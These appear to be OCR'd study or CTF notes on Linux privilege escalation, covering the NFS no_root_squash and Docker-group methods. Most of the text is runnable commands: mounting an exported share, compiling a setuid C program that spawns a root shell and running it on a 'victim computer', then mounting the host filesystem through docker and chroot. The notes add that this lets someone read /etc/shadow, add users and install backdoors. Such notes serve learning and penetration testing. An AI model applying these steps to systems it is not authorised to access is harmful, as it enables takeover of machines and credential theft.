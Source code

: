 I.The no_root_squash means it sharable and can be mount in simple words
it has root access

to find that run cat /etc/exports

then find the no_root_squash folder

Step(run in your computer):

1. showmount -e <ip> // this shows the no_root_squash_folder
2. mkdir /tmp/mountme
3. mount -o rw,vers=2 <ip>:/tmp /tmp/mountme
4. echo 'int main() { setgid(0), setuid(0), system("/bin/bash"); return 0
;}' > /tmp/mountme/x.c
5. gcc /tmp/mountme/x.c -o /tmp/mountme/x
6. chmod +s /tmp/mountme/x
now move to virtual machine or victim computer:
7. cd /tmp
8. ./x

## DOCKER

If a user can run Docker without sudo (i.e, part of the docker group) they can become root because Docker has root level access to the host

Steps(if the user has docker permissions):

```
docker run -v /:/mnt --rm -it bash chroot /mnt sh
```

-v /:/mnt - mounts the host filesystem into /mnt inside the container

--rm - automatically deletes the container after exit

-it -  makes it interactive

bash - is the base image

chroot /mnt sh - to make us inside the host system's root / with root privileges

So now we has the root privilege so we can read, write /etc/shadow, add users, install backdoors, etc

## RESOURCES

[GTFOBins](https://gtfobins.github.io/)

[PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings)

